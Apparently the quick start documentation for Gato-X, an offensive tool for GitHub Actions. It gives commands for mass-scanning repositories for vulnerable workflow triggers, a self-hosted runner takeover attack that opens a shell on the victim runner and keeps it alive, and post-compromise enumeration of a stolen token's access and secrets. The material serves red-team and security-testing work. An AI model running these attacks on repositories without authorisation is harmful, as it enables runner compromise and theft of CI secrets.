 # Quick Start Guide

This guide will help you get started with Gato-X quickly for common use cases.

## Prerequisites

Before you begin, make sure you have:

1. Installed Gato-X (see [Installation](user-guide/installation.md))
2. Created a GitHub PAT with appropriate scopes
3. Set the `GH_TOKEN` environment variable with your PAT

## Search For GitHub Actions Vulnerabilities at Scale

This workflow demonstrates how to scan a large number of repositories for potential vulnerabilities:

### Step 1: Search for candidate repositories

```bash
gato-x s -sg -q 'count:75000 /(issue_comment|pull_request_target|issues:)/ file:.github/workflows/ lang:yaml' -oT checks.txt
```

This command:
- Uses the search (`s`) command with Sourcegraph API (`-sg`)
- Searches for workflows that use potentially vulnerable triggers
- Outputs the results to a text file (`checks.txt`)

### Step 2: Enumerate the repositories for vulnerabilities

```bash
gato-x e -R checks.txt | tee gatox_output.txt
```

This command:
- Uses the enumerate (`e`) command
- Processes all repositories from the file (`-R checks.txt`)
- Saves the output to a file while displaying it in the terminal

## Perform Self-Hosted Runner Takeover

To perform a public repository self-hosted runner takeover attack:

### Prerequisites

- A GitHub PAT with `repo`, `workflow`, and `gist` scopes
- The PAT should be for an account that is a contributor to the target repository

### Execute the attack

```bash
gato-x a --runner-on-runner --target ORG/REPO --target-os linux --target-arch x64
```

This command:
- Uses the attack (`a`) command
- Specifies the runner-on-runner attack method
- Targets a specific repository
- Specifies the target runner's OS and architecture

If the attack succeeds, Gato-X will drop to an interactive prompt where you can execute shell commands on the self-hosted runner.

For non-ephemeral runners, use the `--keep-alive` flag to keep the workflow running (up to 5 days).

## Post-Compromise Enumeration

If you have obtained a GitHub PAT, you can use Gato-X to validate it and identify what it has access to:

```bash
gato-x e -s
```

This command:
- Uses the enumerate (`e`) command with self-enumeration (`-s`)
- Identifies repositories with administrative access
- Shows accessible secrets (if the user has write access)

## Additional Options

For more detailed information about each command and its options, see the [Command Reference](user-guide/command-reference/index.md) section.

